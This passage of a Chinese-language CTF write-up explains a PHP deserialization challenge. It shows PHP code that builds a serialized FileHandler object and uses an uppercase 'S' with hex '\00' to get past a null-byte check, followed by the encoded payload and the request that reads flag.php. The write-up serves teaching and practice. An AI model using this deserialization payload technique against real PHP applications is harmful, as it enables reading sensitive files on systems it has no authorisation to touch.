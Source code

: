 - php对于`private`/`protected`类型的成员变量进行序列化时会加上包含00字节的特殊内容，但是这无法通过`$is_valid()`判断。可以将序列化结果中的`s`替换为`S`，使其后面的内容支持16进制，然后空字节写成`\00`即可

  >**Note**:
  >
  >Object's private members have the class name prepended to the member name; protected members have a '*' prepended to the member name. These prepended values have null bytes on either side.
  >
  >https://www.php.net/manual/en/function.serialize

### payload1

所以，最常规的payload可以通过以下方式生成：

```php
<?php
	class FileHandler {
		protected $op = 2;
		protected $filename = "flag.php";
		protected $content = "";
	}
	$a = new FileHandler();
	$b = serialize($a);
	$b = str_replace("s", "S", $b);  
    $b = str_replace("%00", "\\00", $b);  
	echo($b);
?>
```

[执行](https://sandbox.onlinephpfunctions.com/)结果

```txt
O%3A11%3A%22FileHandler%22%3A3%3A%7BS%3A5%3A%22\00%2A\00op%22%3Bi%3A2%3BS%3A11%3A%22\00%2A\00filename%22%3BS%3A8%3A%22flag.php%22%3BS%3A10%3A%22\00%2A\00content%22%3BS%3A0%3A%22%22%3B%7D
```

请求`?str=O%3A11%3A%22FileHandler%22%3A3%3A%7BS%3A5%3A%22\00%2A\00op%22%3Bi%3A2%3BS%3A11%3A%22\00%2A\00filename%22%3BS%3A8%3A%22flag.php%22%3BS%3A10%3A%22\00%2A\00content%22%3BS%3A0%3A%22%22%3B%7D`即可获取flag。

![image-20210824142159687](image-20210824142159687.png "flag")
